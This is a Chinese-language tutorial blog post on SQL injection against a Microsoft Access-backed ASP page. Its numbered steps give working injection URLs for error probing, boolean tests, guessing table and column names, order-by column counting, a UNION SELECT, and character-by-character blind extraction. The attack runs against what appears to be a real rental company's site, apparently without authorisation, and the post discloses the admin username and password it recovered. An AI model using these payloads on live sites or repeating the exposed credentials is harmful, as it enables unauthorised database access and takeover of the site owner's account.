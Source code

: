 ```yaml
---
title: sql注入入门 之 access常规注入 [ union方式 ]
date: 2016-05-11 07:29:34
tags: sqlinjection
categories: "all sql injection"
---
```


<br>
0x01 用于演示的常规 access 实例注入点,如下,可以看到,正常情况下的页面是这样的:
``` ruby
http://www.vlun.com/dauphin-island-vacation-rentals-details.asp?id=240
```
!["正常情况下的页面"](/img/access_1.jpg)<br>

0x02 尝试 `’` 干扰后,数据库如期报错,其实在错误里面就已经说的很清楚了,是access的数据库,错误的原因是多了个单引号导致的,既是如此,则证明我们的单引号刚刚已被带入了正常查询,这也正是我们想要看到的效果
``` ruby
http://www.vlun.com/dauphin-island-vacation-rentals-details.asp?id=240'
```
!["数据库报错"](/img/access_2.jpg)<br>

0x03 再次确认是否真的存在注入,我们观察到,条件为真时页面返回正常
``` ruby
http://www.vlun.com/dauphin-island-vacation-rentals-details.asp?id=240 and 1=1
```
!["条件为真返回正常"](/img/access_3.jpg)<br>

0x04 条件为假时页面返回错误,确认无疑,这是个标标准准的access数字型注入点,紧接着我们就可以开始正常查询各种数据了,关于注入access,暂时也看到没什么特别好的办法,表名字段名只能硬猜
``` ruby
http://www.vlun.com/dauphin-island-vacation-rentals-details.asp?id=240 and 1=112
```
!["条件为假时返回错误"](/img/access_4.jpg)<br>

0x05 首先,尝试猜管理表名,当然,这中间肯定还尝试了很多其它可能的管理表名,比如,admin,login,admin_user等等……直到我们尝试到`users`表时页面才返回正常,说明该表存在
``` ruby
http://www.vlun.com/dauphin-island-vacation-rentals-details.asp?id=240 and exists(select * from users)
```
!["猜管理表名"](/img/access_5.jpg)<br>

0x06 有了管理表名,接着就该猜该表中对应的用户和密码字段名了,当我们尝试 `username` 字段时,页面返回正常,说明该字段名存在
``` ruby
http://www.vlun.com/dauphin-island-vacation-rentals-details.asp?id=240 and exists(select username from users)
```
!["猜账号字段名"](/img/access_6.jpg)<br>

0x07 用户名字段有了,下面该轮到猜密码字段名了,同样,当我们尝试 `password` 字段名时页面返回正常,说明该字段名也存在
``` ruby
http://www.vlun.com/dauphin-island-vacation-rentals-details.asp?id=240 and exists(select password from users)
```
!["猜密码字段名"](/img/access_7.jpg)<br>

0x08 目前为止,表名,字段名都有了,理论上,紧接着直接去爆出相应的数据即可,不过,在爆数据之前,我们还需要先确定当前表的字段个数,后面好执行union,然后爆出数据的显示位,这里就用经典的order by ,很显然,为3的时候,页面返回正常
``` ruby
http://www.vlun.com/dauphin-island-vacation-rentals-details.asp?id=240 order by 3
```
!["字段为3的时候"](/img/access_8.jpg)<br>

0x09 为4的时候页面返回错误,按说,当前表的字段个数应该为3个才对
``` ruby
http://www.vlun.com/dauphin-island-vacation-rentals-details.asp?id=240 order by 4
```
!["字段为4的时候报错"](/img/access_9.jpg)<br>

0x10 但实际测试中,它却显示一直不匹配错误,好吧,想要直截了当的爆出数据估计要费点儿劲了,为了不在这里浪费时间,我们只能暂时用类似盲注的办法来一位位字符的截取数据了
``` ruby
http://www.vlun.com/dauphin-island-vacation-rentals-details.asp?id=240 and 1=23 UNION SELECT 1,2,3 from users --
```
!["猜密码字段名"](/img/access_10.jpg)<br>

0x11 在这之前,我们已经确定了用户及密码的字段名和管理表名,所以,我们就可以像下面这样这样来获取数据<br>

0x12 查询 `username`字段下的第一条数据的长度,当大于7时页面返回正常
``` ruby
http://www.vlun.com/dauphin-island-vacation-rentals-details.asp?id=240 and (select top 1 len(username) from users)>7 
```
!["字段数据长度"](/img/access_10.png)<br>

0x13 大于8时页面返回错误,说明 `username` 字段下的第一条数据长度为 8 个字符
``` ruby
http://www.vlun.com/dauphin-island-vacation-rentals-details.asp?id=240 and (select top 1 len(username) from users)>8 
```
!["username字段第一条数据的长度"](/img/access_11.png)<br>

0x14 知道了第一条数据的总长度,我们就要可以开始一个一个字符的截取数据了,下面语句的意思是截取`username`字段的第一条数据的第一位字符并返回其对应的ascii码,可以看到,为98的时候页面返回正常,而98对应的ASCII码字符是`b`
``` ruby
http://www.vlun.com/dauphin-island-vacation-rentals-details.asp?id=240 and (select top 1 asc(mid(username,1,1)) from users)=98
```
!["返回username字段第一条数据的第一个字符的ascii码值"](/img/access_12.png)<br>

0x15 截取`username`字段的第一条数据的第二个字符并返回其对应的ascii码,为119时页面返回正常,而119对应的字符为`w`
``` ruby
http://www.vlun.com/dauphin-island-vacation-rentals-details.asp?id=240 and (select top 1 asc(mid(username,2,1)) from users)=119
```
!["第二个字符的ASCII码值"](/img/access_13.png)<br>

最后,通过慢慢遍历,`username` 字段的第一条记录的完整数据为`bwrealty`<br>

0x16 `username`字段查完了,下面又该轮到`password`字段了,还是一模一样的方法

截取`password`字段的第一条数据的第一位字符,并返回其对应的ascii码,直到为98时页面猜返回正常
``` ruby
http://www.boardwalk-realty.com/dauphin-island-vacation-rentals-details.asp?id=240 and (select top 1 asc(mid(password,1,1)) from users)=98
```
!["第一个字符的ASCII码值"](/img/acpass1.png)<br>

截取password字段的第一条数据的第二位字符,并返回其对应的ascii码,直到为119时页面猜返回正常
``` ruby
http://www.boardwalk-realty.com/dauphin-island-vacation-rentals-details.asp?id=240 and (select top 1 asc(mid(password,2,1)) from users)=119
```
!["第二个字符的ASCII码值"](/img/acpass2.png)<br>

`password`字段第一条数据的最终结果为`bwrealty123`,至此,整个access的常规注入就算基本完成了,大家也都看到了,其实整个注入过程,非常的简单
<br>

一点小结:
&nbsp;&nbsp;&nbsp;&nbsp;针对access的注入,其实真的没什么特别需要注意的,非常简单,因为它没有像mysql,mssql,oracle...那样,直接有提供现成的元数据可以查,表名字段名都只能硬猜,也就是说,如果是字段名猜不着,有后台的情况下,还可以看看后台的登陆表单里的账号密码字段名是什么,然后拿这个来试试,如果压根是表名都猜不着也就猜不着了,没什么曲线可以走,所以,这就需要大家自己平时多去搜集一些命中率相对比较高的管理员表名和账户密码字段名了,另外,因为access数据库,本身就非常小,所以,根本也没有任何权限及用户访问控制机制,自然注入起来也非常的容易,基本上是不用考虑的太多,上手即来
<br>
